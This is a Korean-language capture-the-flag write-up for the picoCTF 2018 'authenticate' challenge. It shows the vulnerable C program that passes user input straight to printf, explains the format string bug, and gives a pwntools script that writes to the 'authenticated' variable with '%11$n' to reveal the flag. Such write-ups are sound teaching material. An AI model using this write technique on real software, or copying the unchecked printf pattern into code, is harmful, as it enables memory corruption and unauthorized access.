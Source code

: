 # picoCTF 2018

<h5> authenticate </h5>
<hr>

<h5> Solution </h5>

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

<p> 이번 문제는 FSB(Format String Bug) 취약점의 문제이다. </p>
<p> 코드의 55라인에서 buf 변수를 printf 로 출력 해주는데, 여기서 FSB 취약점이 터지게 된다. </p>
<p> 그럼 우리가 입력해주는 buf 변수의 오프셋 위치를 확인해보자, </p>

<img class="border-shadow" src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fk.kakaocdn.net%2Fdn%2FtMydD%2FbtqxUq7B031%2FYlhFysqaFKRaP3PKIhBnA1%2Fimg.png"><br>

<p> AAAA 로 입력값을 주고 %p 로 주소값 출력을 시켜주면, 우리가 입력한 값은 11번째 오프셋에 저장되있다. </p>

<p> 이제 다시 코드로 돌아가서 보면 read_flag() , 플래그를 출력해주는 함수에서 authenticated 변수에 대해서 <br>
True/False 인지에 대한 조건을 검사하고 있다. </p>

<p> 기본적으로 코드에서 선언된 authenticated 의 값은 0(FALSE) 로 선언해주었고, 하나 이상의 값이 존재한다면, 해당 조건을 통과시킬 수 있다. </p>

<img class="border-shadow" src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fk.kakaocdn.net%2Fdn%2FbeclfJ%2FbtqxWKKBaCP%2FAqBdsnkJdoUH7iQBYD2r01%2Fimg.png"><br>

<p> 그럼, authenticated 변수에 대한 함수의 주소를 구해보면 다음과 같다. </p>

<p> 해당 함수의 주소를 써주고, 조건문을 통과 시킨 뒤, 11번째 오프셋에 대해서 %11$n 으로 입력해주면 플래그를 볼 수 있다. </p>

```py
#!/usr/bin/python

from pwn import *

p = remote('2018shell.picoctf.com',26336)

payload = p32(0x804a04c)
payload += "%11$n"

p.sendline(payload)
p.interactive()
```
